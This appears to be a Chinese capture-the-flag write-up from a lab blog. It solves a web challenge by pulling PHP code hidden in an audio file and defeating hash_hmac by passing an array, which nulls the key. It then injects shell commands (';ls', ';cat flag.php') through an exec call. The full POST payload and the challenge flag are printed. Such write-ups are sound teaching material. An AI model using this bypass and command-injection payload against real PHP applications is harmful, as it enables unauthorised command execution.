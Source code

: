 ```yaml
---
layout: post
title:  "[黑猫警长]解题笔记"
date:   2020-12-25 20:00:00 +0800
categories: 实验室日题
---
```


### 考察点

- 文件隐写
- `hash_hmac()` 函数漏洞，数组绕过

### 分析

网站中只有一个黑猫警长的~~性感~~写真和一个播放器，简单查看一下源代码发现一行注释：

```HTML
</header>
<!--都说听听歌了！-->
谁！竟敢踩我一只耳的尾巴！
```

那就下载歌曲下来看看里面有什么吧..

下载完用Winhex打开分析一下，文件的尾部发现了PHP的代码。

![image-20201226002627208](..\images\image-20201226002627208.png)

把代码提取出来分析：

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}
$clandestine = getenv("clandestine");
// 获取环境变量clandestine
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
// 生成带有密钥的哈希
// hash_hmac ( string $algo , string $data , string $key [, bool $raw_output = false ] ) : string
// algo 	  哈希算法名称 
// data 	  要进行哈希运算的消息
// key  	  使用 HMAC 生成信息摘要时所使用的密钥
// raw_output 设置为 true 输出原始二进制数据， 设置为 false 输出小写 16 进制字符串
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}
echo exec("nc".$_POST['One-ear']);
```

大概就是要想办法求出`clandestine`的值，让传入的Black-Cat-Sheriff与加密后的One-ear相同，从而执行下面的命令。然后nc弹shell拿flag。但是想了半天不知道该怎么办，于是从网上寻找方法~~(找师傅们的wp)~~。然后发现一个神奇的数组，当在`$data`处传进去数组的时候，`clandestine`即密钥会被置为NULL，这样便绕过了加密。

![image-20201226122224809](..\images\image-20201226122224809.png)

剩下的就是命令构造，命令执行，可以用`;`截断它的命令

![image-20201226122112759](..\images\image-20201226122112759.png)

```php
string(64) "67f5ea2e063353fe3a219e35fa13c15cbf73df6fc6cb89fa0c2eecb50a7d027e"
```

这样就可以拼出payload

```
Black-CatSheriff=67f5ea2e063353fe3a219e35fa13c15cbf73df6fc6cb89fa0c2eecb50a7d027e&One-ear=;ls&White-cat-monitor[]=0
```

![image-20201226123653335](..\images\image-20201226123653335.png)

命令执行了，但是没有发现flag在哪里。八嘎！

后来看了[wkr](https://www.wkr.moe/)的[wp](https://www.wkr.moe/ctf/dayattack/424.html)，然后自己测试了一下，发现`echo exec(ls);`只返回一个值，所以这里只有一个`vendor`，应该把语句换成``;echo `ls` `` 这样就能显示出目录了。

![image-20201226130100978](..\images\image-20201226130100978.png)

命令换成`;cat flag.php` flag到手

**flag:GWHT{y0u_mu3t_p@y_atTentiou_!0_lt}**

